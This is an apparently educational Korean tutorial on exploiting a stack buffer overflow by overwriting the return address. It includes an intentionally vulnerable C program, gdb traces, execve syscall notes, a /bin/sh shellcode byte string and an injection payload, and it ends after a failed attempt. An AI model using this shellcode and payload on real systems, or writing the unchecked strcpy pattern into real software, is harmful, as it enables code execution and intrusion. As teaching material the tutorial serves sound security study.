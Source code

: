 # Return Address Overwrite
* RET Overwrite Exploitation : 리턴 주소를 덮어 실행 흐름을 조작해 공격자가 원하는 코드를 실행하는 방법
``` C
//example1.c
// gcc -o example1 example1.c -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -m32
#include <stdio.h>
int vuln(char *src) {
  
  char buf[32] = {};
  
  strcpy(buf, src);
  return 0;
}
int main(int argc, char *argv[], char *environ[]) {
  if (argc < 2){
    exit(-1);
  }
  vuln(argv[1]);
  return 0;
}
```
example1.c에서는 프로그램의 argv[1]을 vuln 함수의 인자로 전달한다.   
vuln 함수에서는 src 버퍼를 buf 버퍼에 strcpy 함수를 이용해 복사한다.
strcpy 함수는 피복사 버퍼에 대한 길이 검증이 없이 때문에, 프로그램의 첫 번째 인자에 buf 배열의 크기보다 긴 문자열을 넣으면
스택 버퍼 오버플로우가 발생한다.
vuln함수의 메모리 구조는 아래와 같다.   
![image](https://user-images.githubusercontent.com/59531805/79189586-13f36d00-7e5d-11ea-89e2-2159296ec38a.png)

```
(gdb) p vuln
$1 = {<text variable, no debug info>} 0x804843b <vuln>
(gdb) b*0x804843b
Breakpoint 1 at 0x804843b
(gdb) r aaaabbbbccccdddd
Starting program: ~/example1 aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllll
Breakpoint 1, 0x0804843b in vuln ()
(gdb) x/2wx $esp
0xffffd520:	0x08048494	0xffffd74a
(gdb) x/i 0x08048494
   0x8048494 <main+30>:	add    $0x4,%esp
(gdb) x/s 0xffffd74a
0xffffd74a:	"aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllll"
(gdb) 
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x20
   0x08048441 <+6>:	mov    ecx,0x0
   0x08048446 <+11>:	mov    eax,0x20
   0x0804844b <+16>:	and    eax,0xfffffffc
   0x0804844e <+19>:	mov    edx,eax
   0x08048450 <+21>:	mov    eax,0x0
   0x08048455 <+26>:	mov    DWORD PTR [ebp+eax*1-0x20],ecx
   0x08048459 <+30>:	add    eax,0x4
   0x0804845c <+33>:	cmp    eax,edx
   0x0804845e <+35>:	jb     0x8048455 <vuln+26>
   0x08048460 <+37>:	push   DWORD PTR [ebp+0x8]
   0x08048463 <+40>:	lea    eax,[ebp-0x20]
   0x08048466 <+43>:	push   eax
   0x08048467 <+44>:	call   0x8048300 <strcpy@plt>
   0x0804846c <+49>:	add    esp,0x8
   0x0804846f <+52>:	mov    eax,0x0
   0x08048474 <+57>:	leave  
   0x08048475 <+58>:	ret  
End of assembler dump.
(gdb) 
```
breakpoint에서의 스택 메모리를 보면, 첫 4바이트는 vuln 함수의 리턴 주소이고 다음 4바이트는 vuln 함수의 인자인 argv[1]의 주소임을 알 수 있다.
strcpy 함수가 실행되기 직전에 breakpoint를 설정해 인자들을 살펴보자. 스택을 살펴보면 첫 번째 인자인 buf 주소와 두 번째 인자인 argv[1]의 주소가 저장되장되어 있는 것을 볼 수 있다.
```
(gdb) x/20i vuln
=> 0x804843b <vuln>:	push   ebp
   ...
   0x8048467 <vuln+44>:	call   0x8048300 <strcpy@plt>
   ...
(gdb) b *0x8048467
Breakpoint 2 at 0x8048467
(gdb) c
Continuing.
Breakpoint 2, 0x08048467 in vuln ()
(gdb) x/2wx $esp
0xffffd4f4:	0xffffd4fc	0xffffd74a
```
strcpy 함수를 실행해보자. strcpy 함수의 첫 번째 인자인 buf(0xffffd4fc)에 argv[1]의 문자열이 복사된 것을 볼 수 있다.
argv[1]에 buf의 길이인 32바이트보다 긴 문자열을 주었기 때문에 vuln의 리턴주소가 저장된 0xffffd520(buf[32]+SFP[4]+RET[4])너머까지
argv[1] 문자열이 복사된 것을 확인할 수 있다.
```
(gdb) ni
0x0804846c in vuln ()
(gdb) x/20wx 0xffffd4fc
0xffffd4fc:	0x61616161	0x62626262	0x63636363	0x64646464
0xffffd50c:	0x65656565	0x66666666	0x67676767	0x68686868
0xffffd51c:	0x69696969	0x6a6a6a6a	0x6b6b6b6b	0x6c6c6c6c
0xffffd52c:	0xf7e1b600	0x00000002	0xffffd5c4	0xffffd5d0
0xffffd53c:	0x00000000	0x00000000	0x00000000	0xf7fb5000
(gdb) 
```
위와 같이 실행이 되면 RET가 0x6a6a6a6a로 바뀌었다.
공격자가 /bin/sh/ 혹은 셸 바이너리를 실행하는 기계어 코드를 실행한다면, 셸에서 제공하는 여러 명령어들을 실행할 수 있다.
리눅스에서는 바이너리를 실행시키기 위해서 execve 시스템 콜을 사용한다.
```
execve syscall
syscall number(eax register) - 0xb(11)
1st argument(ebx register) – pathname
2nd argument(ecx register) – argv[]
3rd argument(edx register) – envp[]
```
pathname에는 실행시킬 바이너리의 경로, argv는 프로그램의 인자 포인터 배열, envp에는 프로그램의 환경 변수 포인터 배열이 요구된다.
단순히 /bin/sh 바이너리를 실행시키는 것이 목적이기 떄무에 sys_execve("/bin/sh"주소, NULL, NULL) 형태의 execve 시스템 콜을 호출하면 된다.
리턴 주소가 저장된 스택 메모리를 덮기까지 남은 36바이트(buf[32]+SFP[4])의 위치에 셸코드를 위치시키고, 리턴 주소를 저장된 셸코드 주소로 바꾸는 공격 코드를 만들어보자.   
![image](https://user-images.githubusercontent.com/59531805/79190502-7483a980-7e5f-11ea-856e-4d06475a4a29.png)
셸코드의 길이는 23바이트이므로 공격코드는 다음과 같이 구성된다.
```
셸코드 + 임의의 13바이트 + 0xffffd4fc(strcpy 함수의 첫 번째 인자인 buf의 주소)
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "\x90”*13 + “\xfc\xd4\xff\xff”
```
```
$ ./example1 python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"+"A"*13+"\xfc\xd4\xff\xff"'
[1]    88636 segmentation fault (core dumped)  ./example1 
$ 
```
셸을 획득하지 못하고 프로그램이 비정상 종료되었다. 스택의 셸코드의 주소가 실행을 하면서 바뀌었기 때문이다.
정확성을 높이기 위해 NOP을 사용해야 한다.


















































